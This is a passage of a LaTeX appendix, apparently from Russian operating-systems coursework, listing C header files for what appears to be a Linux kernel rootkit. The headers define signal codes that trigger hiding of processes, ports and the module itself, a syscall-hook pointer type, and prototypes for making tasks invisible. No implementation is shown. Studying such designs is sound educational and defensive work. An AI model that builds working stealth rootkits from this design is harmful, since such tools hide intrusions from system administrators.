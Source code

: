 \chapter*{\hfill{}ПРИЛОЖЕНИЕ А\hfill{}}%
\label{cha:appendix1}
\section*{\hfill{}РЕАЛИЗАЦИЯ\hfill{}}%
\label{sec:realizatsiia}

\begin{lstlisting}[language=c,caption={Объявление констант и типов},label=lst:defsh]
#ifndef OSCW_DEF_H_
#define OSCW_DEF_H_

#include <linux/syscalls.h>
#include <linux/signal.h>

enum {
    SIGINVISPROC = SIGUSR1, // 10
    SIGINVISPORT = SIGUSR2, // 12
    SIGMODHIDE   = SIGRTMIN // 32
};

struct linux_dirent {
    unsigned long	d_ino;
    unsigned long	d_off;
    unsigned short	d_reclen;
    char		    d_name[1];
};

typedef asmlinkage long (*syscall_t)(const struct pt_regs *);

#endif // OSCW_DEF_H_
\end{lstlisting}

\begin{lstlisting}[language=c,caption={Сокрытие процессов, заголовочный файл},label=lst:proc_h]
#ifndef OSCW_PROC_H_
#define OSCW_PROC_H_

#include <linux/sched.h>
#include <linux/proc_fs.h>
#include <linux/proc_ns.h>

#define PF_INVISIBLE 0x01000000

struct task_struct *
find_task_struct(pid_t pid);

int
is_invisible_pid(pid_t pid);
int
is_invisible_task_struct(struct task_struct *task);

void
toggle_proc_invisability(struct task_struct *task);

#endif // OSCW_PROC_H_
\end{lstlisting}

